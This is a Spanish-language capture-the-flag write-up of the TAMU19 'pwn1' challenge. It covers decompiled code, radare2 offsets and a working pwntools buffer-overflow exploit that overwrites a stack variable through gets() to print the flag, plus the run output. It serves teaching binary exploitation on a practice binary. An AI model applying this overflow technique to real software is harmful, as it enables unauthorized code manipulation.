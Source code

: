 ```yaml
---
layout: post
title: Pwn1 - Nightmare
tags: [ctf, rev, nightmare]
---
```


**Tamu19 pwn1**


## Análisis

Ejecuto **pwn checksec** sobre el binario.

```
h3rshel@kali:~/Desktop/reversing/nightmare$ pwn checksec pwn1 
[*] '/home/h3rshel/Desktop/reversing/nightmare/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## pwn1

Abro el binario con **ghidra**, donde se puede leer el código decompilado.

```c
undefined4 main(void)

{
  int cmpResult;
  char usrInput [43];
  int override_this;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(_stdout,(char *)0x2,0,0);
  local_14 = 2;
  override_this = 0;

  // Primera pregunta
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(usrInput,0x2b,_stdin);
  cmpResult = strcmp(usrInput,"Sir Lancelot of Camelot\n");
  if (cmpResult != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
    exit(0);
  }

  // Segunda pregunta
  puts("What... is your quest?");
  fgets(usrInput,0x2b,_stdin);
  cmpResult = strcmp(usrInput,"To seek the Holy Grail.\n");
  if (cmpResult != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
    exit(0);
  }
  // Tercera pregunta
  puts("What... is my secret?");
  gets(usrInput);
  if (override_this == 0xdea110c8) {
    // Hay que conseguir llegar aquí
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

He renombrado algunas variables para que sea más sencillo de entender.

El binario realiza en total 3 preguntas las cuales hay que contestar correctamente para poder continuar con la ejecución. Las dos primeras son muy sencillas ya que se puede ver la solución directamente en el código. La tercera pregunta ("What... is my secret?") tiene truco ya que la variable que es comparada en ningún momento se modifica a lo largo del programa. Además, la tercera pregunta usa la función **gets()** para tomar la entrada del usuario, la cual es insegura y permite realizar un bufferoverflow.

El objetivo de este desafío es conseguir modificar el valor de la variable **override_this** para que coincida con el valor comparado (0xdea110c8). Casualmente esta variable se encuentra justo debajo de la variable **usrInput** por lo que se puede modificar introduciendo una cadena suficientemente larga.

Para calcular la distancia entre ambas variables solo hay que restar sus direcciones relativas al **ebp**. Esto se puede ver en **radare2**.

```
[0x56587779]> pdf
┌ 362: int main (char **argv);
│           ; var int32_t usrInput @ ebp-0x3b
│           ; var int32_t override_this @ ebp-0x10
│           ; var int32_t var_ch @ ebp-0xc
│           ; var int32_t var_8h @ ebp-0x8
│           ; arg char **argv @ esp+0x74
│           0x56587779      8d4c2404       lea ecx, [argv]
│           0x5658777d      83e4f0         and esp, 0xfffffff0
│           0x56587780      ff71fc         push dword [ecx - 4]
│           0x56587783      55             push ebp
│           0x56587784      89e5           mov ebp, esp
[...]
```

La diferencia es de **0x2b** la cual será el padding en el exploit.

```
    0x3b
  - 0x10
-----------
    0x2b
```

## Exploit

Creo el exploit en python el cual enviará las dos primeras frases correspondientes a cada pregunta y seguido el payload que sobreescribirá la variable "override_this" de forma que se ejecutará la función **print_flag()**.

```py
from pwn import *

# Iniciar el proceso
target = process('./pwn1')

# Responder pregunta 1
target.sendline("Sir Lancelot of Camelot")

# Responder pregunta 2
target.sendline("To seek the Holy Grail.")

# Payload
payload = b""
payload += b"0" * 0x2b # Distancia calculada anteriormente 
payload += p32(0xdea110c8) # Sobreescribir valor

# Responder pregunta 3
target.sendline(payload)

target.interactive()
```

### Ejecución

```
h3rshel@kali:~/Desktop/reversing/nightmare$ python3 exploit.py
[+] Starting local process './pwn1': pid 36404
[...]
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

[*] Process './pwn1' stopped with exit code 0 (pid 36404)
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.

